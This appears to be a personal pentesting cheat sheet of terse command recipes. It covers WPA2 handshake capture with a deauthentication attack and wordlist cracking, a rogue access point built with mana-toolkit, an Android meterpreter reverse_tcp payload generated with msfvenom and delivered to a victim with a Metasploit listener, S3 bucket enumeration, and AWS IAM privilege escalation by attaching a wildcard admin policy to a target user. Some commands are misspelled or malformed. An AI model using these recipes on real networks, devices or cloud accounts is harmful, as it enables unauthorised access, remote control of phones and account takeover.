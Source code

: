 /*--*/
/* WPA Crack */
- Fern
/*--*/
/* WPA2 Crack */
	. airmon-ng start wlan0mon
	. airdump-ng wlan0mon
	. airdump wlan0mon --bssid <bssid> -c(channel) <. -w <dumpFileIV> wlan0mon
	. aireplay-ng -0(deauth mode) 11(deauth packet) -a <bssid> -c <station> wlan0mon
	. aircrack-ng -a2(mode 2: WPA|PSK) <bssid> -w <wordlist> 
- Mana
	. /etc/mana-toolkit/hostapd-mana.config
	. change ssid and interface(phy)
	. bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh: create rogue accessPoint
/*--*/
*************************
/* Mobile Hacking */
- msfvenom
	. msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik lhost=<> R > destPath
	. share/upload/deliver to client
	. msfconsole
	. use exploit/multi/handler
	. exploit -j -z
- PhoneSploit: various action on connected phone
	. python3 phonesploit.py
- AVC UnDroid: Analyse apk
	. visit undroid.av-comparatives.org, upload apk to get report
- Quixxi
	. vulnerabilitytest.quixxi.com/#/
*************************
/* Cloud Security */
- lazys3: generate list of s3 directory wordlist
	. ruby lazys3.rb <company>(optional)
- s3scanner.py: scans if se bucket is open
	. python ./s3scanner.py urlOfS3_wordlist.txt: result in default bucket.txt	
- AWS
	. policy: {"version": "2012-10-17","statement": [{"Effect": "Allow","Action": "'","Resource": "'"}]}
	. aws iam create-policy --policy-name user-policy --policy-document file://<json file>: gives admin priv to IAM based on policy
	. aws iam attach-user-policy --user-name <targetUser> --policy-arn arn:aws:iam::<acID>:policy/user-policy: attach user-policy to user
	. aws iam list-users: lists all users if priv is escalated
*************************
/* Ecryption */
- cryptoforge
- advanced encryption package
- bcTextEncoder
- VeraCrypt: whole encrypted drive
- BitLocker: whole encrypted drive
*************************
*************************

Tool to review
- nmap
- hydra
- john
- zap
- aircrack-ng
- pluma
